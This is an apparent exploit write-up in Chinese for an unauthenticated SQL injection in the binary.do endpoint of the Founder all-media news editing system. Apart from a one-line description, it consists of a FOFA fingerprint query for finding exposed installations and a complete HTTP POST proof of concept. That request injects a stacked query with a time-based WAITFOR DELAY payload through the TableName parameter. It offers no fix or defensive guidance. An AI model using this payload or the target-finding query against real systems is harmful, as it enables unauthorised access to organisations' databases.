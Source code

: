## 方正畅享全媒体新闻采编系统binary.do存在SQL注入漏洞

方正畅享全媒体新闻采编系统binary.do存在SQL注入漏洞，未经身份验证的恶意攻击者利用SQL注入漏洞获取数据库中信息。

## fofa

```
app="FOUNDER-全媒体采编系统"
```

## poc

```
POST /newsedit/newsplan/task/binary.do HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close

TableName=DOM_IMAGE+where+REFID%3D-1+union+select+%271%27%3B+WAITFOR+DELAY+'0:0:5';select+DOM_IMAGE+from+IMG_LARGE_PATH&FieldName=IMG_LARGE_PATH&KeyName=REFID&KeyID=1
```

